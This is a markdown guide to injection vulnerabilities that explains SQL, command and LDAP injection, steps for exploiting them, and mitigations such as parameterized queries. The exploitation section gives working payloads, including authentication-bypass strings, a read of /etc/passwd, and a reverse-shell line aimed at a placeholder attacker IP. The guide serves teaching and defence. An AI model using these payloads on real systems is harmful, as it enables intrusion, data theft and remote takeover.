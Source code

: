 # [Severity 1] Injection

## Description
Injection vulnerabilities occur when an application mistakenly executes untrusted data as part of a query or command. These vulnerabilities can affect databases (SQL injection), operating systems (OS command injection), or LDAP directories, among others. Injection attacks happen when an application accepts unsanitized inputs from users and includes them in commands sent to an interpreter (like SQL, shell, or LDAP), allowing attackers to alter commands and execute unauthorized actions.

Common types of injection attacks include:
- **SQL Injection (SQLi)**: Malicious SQL commands are injected to control a database.
- **Command Injection**: Commands are injected into an application’s command-line execution.
- **LDAP Injection**: Malicious LDAP commands are used to manipulate directory services.

## Exploitation Method

### 1. Locate Input Fields for Injection
   - Find input fields where the application interacts with a backend database or executes commands based on user input. Typical targets include login forms, search bars, feedback forms, URL parameters, or any part of the application where user data is processed.
   - **Example**: In a login form, if the application uses SQL to verify credentials like this: `SELECT * FROM users WHERE username='[user_input]' AND password='[user_input]'`, then injecting SQL syntax directly into these fields may modify the query.

### 2. Test with Basic Injection Payloads
   - Begin by testing input fields with simple payloads to check if the application processes the input as part of a query.
   - **Example Payloads**:
     - **SQL Injection**: Input `' OR '1'='1` in a login field. This would change the SQL query to always return true (bypassing authentication).
       - Query before injection: `SELECT * FROM users WHERE username='user' AND password='password'`
       - Query after injection: `SELECT * FROM users WHERE username='' OR '1'='1' AND password=''`, making the query always true.
     - **Command Injection**: For command-line applications, try inputs like `; ls` or `| whoami` to see if the command is executed.
       - *Example*: If the application uses a command such as `ping [user_input]`, injecting `; ls` as the input may list server files if the input is not sanitized.

### 3. Refine the Payload Based on Application Response
   - After initial testing, adjust payloads according to the application’s responses to understand the level of vulnerability.
     - **Observe Error Messages**: If errors reveal database or system details (e.g., SQL errors showing table names), use these hints to craft targeted injection queries.
     - **Blind SQL Injection**: If no error messages appear, try Blind SQL injection techniques. For example, use time-based queries (`SLEEP(5)`) to test whether the server responds with a delay, indicating successful injection.
   - **Example**: If the application reveals database version details upon injecting `'; SELECT @@version;--`, you can tailor further SQL queries based on the database type and version.

### 4. Escalate Injection for Full Database Control
   - Once SQL injection is confirmed, you can use tools like SQLMap to automate the injection and extract data or gain unauthorized access.
   - **Example with SQLMap**: Running `sqlmap -u "http://example.com/login" --data="username=admin&password=admin"` can automate testing for SQL injection, extracting sensitive data like usernames and passwords from vulnerable databases.

### 5. Exploit Command Injection for Remote Code Execution (RCE)
   - If the application is vulnerable to command injection, you can execute commands directly on the server.
   - **Example**: Injecting `| whoami` or `; cat /etc/passwd` may allow you to view user permissions or sensitive files.
   - **Advanced Payload**: Use reverse shells by injecting payloads like `; bash -i >& /dev/tcp/[attacker_IP]/[port] 0>&1`, which can give an attacker full command-line access.

## Mitigation Techniques

1. **Use Parameterized Queries**:
   - Always use parameterized (prepared) statements where user input is treated as a variable, not part of the query.
   - **Example in SQL**:
     ```python
     cursor.execute("SELECT * FROM users WHERE username = %s AND password = %s", (username, password))
     ```
   - In this example, the input for `username` and `password` is treated strictly as data, not part of the SQL structure, making injection impossible.

2. **Validate and Sanitize User Input**:
   - Limit allowed characters and enforce strict input validation for each input field.
   - **Example**: Only allow alphanumeric characters for usernames and restrict special characters entirely in sensitive fields.
   - **Sanitize Command Inputs**: For applications using command-line input, avoid allowing direct user control over command parameters. Instead, hard-code parameters wherever possible.

3. **Implement Principle of Least Privilege**:
   - Limit database user privileges. An application should use a restricted database user with only necessary permissions (e.g., SELECT rather than INSERT or DELETE).
   - **Example**: If a database user has only read permissions, even if SQL injection occurs, attackers will be unable to delete or modify data.

4. **Error Handling Without Leaking Information**:
   - Customize error messages to avoid displaying database or server details to users, which can give attackers clues.
   - **Example**: Use generic error messages like “Invalid input” rather than detailed ones like “SQL syntax error near…”

5. **Regular Security Audits and Code Reviews**:
   - Perform routine security audits and source code reviews to detect any areas vulnerable to injection attacks.
   - Use automated tools like Burp Suite, OWASP ZAP, or SQLMap in a controlled environment to uncover potential vulnerabilities.

---

With this level of detail, you can better understand how to exploit injection vulnerabilities and protect applications from them. These steps showcase how attackers progress from simple injections to more complex methods, and why secure coding practices like input validation and prepared statements are crucial in mitigating injection risks.
